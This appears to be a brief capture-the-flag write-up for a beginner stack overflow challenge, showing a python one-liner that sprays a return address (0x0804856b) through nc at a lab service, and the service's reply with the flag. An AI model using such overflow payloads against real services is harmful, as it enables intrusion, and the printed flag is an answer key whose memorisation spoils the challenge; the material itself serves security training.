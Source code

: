Try your first stack overflow exploitation.

192.168.210.11:10001

```
➜  Desktop python -c 'print "\x08\x04\x85\x6B"[::-1] * 0x100' | nc 192.168.210.11 10001
Do you know "return address"?
You got the right return address!
Take your flag and keep going: flag{return_to_0804856b_to_get_the_flag}
```
